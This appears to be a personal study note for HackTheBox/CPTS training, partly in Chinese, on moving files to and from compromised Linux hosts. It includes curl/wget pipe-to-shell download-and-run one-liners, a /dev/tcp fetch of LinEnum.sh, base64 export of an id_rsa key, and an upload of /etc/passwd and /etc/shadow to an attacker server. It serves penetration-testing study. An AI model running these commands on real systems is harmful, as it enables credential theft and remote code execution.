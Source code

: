 ```yaml
---
tags:
  - 渗透/利用
  - IT/Linux
  - 渗透/CPTS
  - 渗透/后渗透
---
```



## 典型方法

打开网络服务器：

- `python3 -m http.server 80`
- `python2.7 -m SimpleHTTPServer`
- `php -S 0.0.0.0:8000`
- `ruby -run -ehttpd . -p8000`

客户端：

- Linux目标机：[[FileTransfers-Linux#Download]]
- Windows目标机：[[FileTransfers-Windows#PowerShell Web Downloads]]


[[Netcat#文件传输]]

另外，可用简单的单行代码。



## Download

### Base64

```bash
cat id_rsa |base64 -w 0;echo (或 base64 id_rsa -w 0)

echo -n <base64-sting> | base64 -d > file
```
 - 注意验证MD5


### Web Downloads with Wget and cURL

一般：`wget`和`curl`直接下载。

#### Fileless Download with cURL

`curl <url/shell.sh> | bash`
#### Fileless Download with wget

`wget -qO- <url/shell.py> | python3`

- `-O-`：output到标准输出。


### Bash (/dev/tcp)

> As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.

#### Connect to the Target Webserver

```shell-session
TimeLess613@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80
```
- `<>`：双向（或双向读写）重定向
	- `3<>`：打开文件描述符3同时进行读取和写入操作


#### HTTP GET Request

```shell-session
TimeLess613@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

#### Print the Response

```shell-session
TimeLess613@htb[/htb]$ cat <&3
```



### scp

> [!note] **Note:** You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.








## Upload



### Web Upload

#### Create a Self-Signed Certificate

```shell-session
TimeLess613@htb[/htb]$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

Generating a RSA private key
................................................................................+++++
.......+++++
writing new private key to 'server.pem'
-----
```

#### Start Web Server

> [!note] The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.

```shell-session
TimeLess613@htb[/htb]$ mkdir https && cd https

TimeLess613@htb[/htb]$ sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```


#### Upload Multiple Files

```shell-session
TimeLess613@htb[/htb]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
- `--insecure`：因为用的自签名证书。


### scp





## Misc

### RDP

挂载

```shell-session
TimeLess613@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

```shell-session
TimeLess613@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

访问`\\tsclient\`




### LOL

> To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.

